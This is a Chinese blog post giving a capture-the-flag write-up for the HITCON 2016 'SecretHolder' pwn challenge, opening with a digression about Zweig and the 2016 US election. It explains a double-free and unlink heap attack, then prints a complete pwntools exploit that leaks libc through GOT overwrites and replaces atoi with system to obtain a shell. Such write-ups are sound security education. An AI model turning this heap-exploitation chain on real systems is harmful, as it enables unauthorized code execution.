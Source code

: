 ```yaml
---
layout: post
title: "HITCON2016--SecretHolder"
comments: false
---
```



>充满戏剧性和命运攸关的时刻在个人的一生中和历史的进程中都是难得的；这种时刻往往只发生在某一天、某一个小时甚至某一分钟，但它们的决定性影响却超越时间。
<p align="right">                            ——————《人类的群星闪耀时》</p>

----------------

就像茨威格所说，很多的历史时刻——天才灵感、历史转折、人类存亡，往往都发生在电光火石的瞬间。可就在这一瞬间，它们宛若星辰，普照消逝的黑夜，亘古不变。我们是不是身处这样的时刻却不自知呢？没事的时候我也曾思考这样的问题，本拉登被击毙算是吗？英国脱欧算是吗？我们学校日新楼开张算吗？特朗普逆袭成功算吗？我发现我无法回答。。。。不扯了，下面进入正题

再扯一句，政治精英VS草根川普，谁能想到川普竟然赢了（就算是喜欢他的人也不相信他一定会当上总统），难道是对手太猪，还是如今世道变了。真是期待以后剧情的发展(☆▽☆)

------------------------

这是一个月前的HITCON的一道100分的pwn题目，今天下午调了一下午才做出来。

---------------

### 题目简介

main函数：

![](http://o6uyyks1m.bkt.clouddn.com/oldsecret1.PNG)

main函数调用了另外三个函数，new,free,edit。

整个函数仅有三种内存块，small(40byte)、big(4000byte)、huge(40000byte)，而且每种内存最多存在一个对应内存块。在bss段存储的有3个布尔量对应三块内存，三个堆指针对应三块内存地址。

看一下wipe函数，漏洞主要出在这里

![](http://o6uyyks1m.bkt.clouddn.com/oldsecret2.PNG)

wipe函数free堆块的时候没有检查对应布尔量，而且free之后没有把指针置NULL，明显可以double free。

---------------------

### 漏洞分析

这里有一个坑，huge secret的大小大概是是40000byte，第一次分配它的空间的时候并没有用堆，而是系统mmap出来的内存。但是把它free一遍之后，再new一下，他的空间就是一个标准的堆块了。

double free和unlink结合起来威力巨大，恰好这个题就是。

我简单画了一下doublefree的图，

![](http://o6uyyks1m.bkt.clouddn.com/oldsecret3.png)

有了上面的基础我们就可以构造伪造的堆块，再利用bss的堆块指针，然后触发unlink就可以达到任意地址写。

有任意地址写权限之后，我们需要先leak出来libc相关的地址，再根据libc找到system函数，再写一遍就拿到shell了。

--------------

### exp



```python
from pwn import *
pwn = remote('127.0.0.1',12345)
# bss
small_ptr = 0x0000000006020B0
big_ptr = 0x00000000006020A0
huge_ptr = 0x00000000006020A8

def new_secret(block,content):
    pwn.recvuntil('3. Renew secret\n')
    pwn.sendline('1')
    pwn.recvuntil('3. Huge secret\n')
    pwn.sendline(block)
    pwn.recvuntil('Tell me your secret: \n')
    pwn.send(content)

def wipe_secret(block):
    pwn.recvuntil('3. Renew secret\n')
    pwn.sendline('2')
    pwn.recvuntil('3. Huge secret\n')
    pwn.sendline(block)

def renew_secret(block,content):
    pwn.recvuntil('3. Renew secret\n')
    pwn.sendline('3')
    pwn.recvuntil('3. Huge secret\n')
    pwn.sendline(block)
    pwn.recvuntil('Tell me your secret: \n')
    pwn.send(content)

new_secret('1',"a"*5)
wipe_secret('1')
new_secret('3','a'*20)
wipe_secret('3')
new_secret('2','a'*10)
wipe_secret('1')
new_secret('1','a'*10)
new_secret('3','a'*20)
#--------------------------------------
#| small_block| huge_block |  top_chunk
#|            |            |
#|   big_block  |huge_block|
#|

free_got = 0x000602018
puts_plt = 0x0004006C0
read_got = 0x000602040
atoi_got = 0x00602070

payload = ''
payload += p64(0x000) + p64(49) + p64(small_ptr-8*3) + p64(small_ptr-8*2)
payload += p64(32) + p64(0x61a90)

renew_secret('2',payload)
wipe_secret('3')
payload = ''
    #      padding      big_ptr       huge_ptr       samll_ptr
payload += p64(0x00) + p64(free_got) + p64(0x00) + p64(big_ptr)

renew_secret('1',payload)
renew_secret('2',p64(puts_plt))
renew_secret('1',p64(read_got))
wipe_secret('2')

data = pwn.recv(6).ljust(8,'\x00')
read_leak = u64(data)
log.critical('read_addr: ' + hex(read_leak))
system_addr = read_leak - 0x00db5b0 + 0x0003f460
log.critical('system_addr: ' + hex(system_addr))

renew_secret('1', p64(atoi_got) + p64(0x00) + p64(big_ptr) + p64(0x1)) # big_secret + huge_secret + small_secret + big_in_use_flag
renew_secret('2', p64(system_addr))
 # *atoi_got = system_addr

pwn.send('sh')
pwn.interactive()
```


